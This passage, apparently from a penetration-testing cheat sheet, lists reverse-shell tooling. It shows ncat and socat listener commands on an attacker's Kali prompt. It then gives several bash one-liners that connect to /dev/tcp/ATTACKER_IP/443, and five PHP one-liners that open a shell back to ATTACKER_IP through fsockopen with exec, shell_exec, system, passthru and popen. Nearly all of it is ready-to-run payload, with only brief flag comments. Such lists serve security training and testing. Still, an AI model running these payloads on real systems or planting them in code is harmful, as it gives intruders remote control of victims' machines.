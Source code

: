 #### Ncat (NMAP Enhanced Netcat)
```bash
# Basic listener
attacker@kali:~$ ncat -lvnp 4444

# SSL encrypted listener
attacker@kali:~$ ncat --ssl -lvnp 4444
```

#### Socat (Socket Cat)
```bash
# Basic TCP listener
attacker@kali:~$ socat -d -d TCP-LISTEN:443 STDOUT

# Flags:
# -d -d: Double verbose mode
# TCP-LISTEN:443: Listen on port 443
# STDOUT: Output to terminal
```

---

## 5. Shell Payloads

### Bash Payloads

#### Standard Reverse Shell
```bash
bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
```

#### Read Line Reverse Shell
```bash
exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done
```

#### File Descriptor Based
```bash
# Using FD 196
0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196

# Using FD 5  
bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```

### PHP Payloads

#### Different Function Approaches
```php
# exec() function
php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'

# shell_exec() function  
php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'

# system() function
php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");'

# passthru() function
php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'

# popen() function
php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");'
```
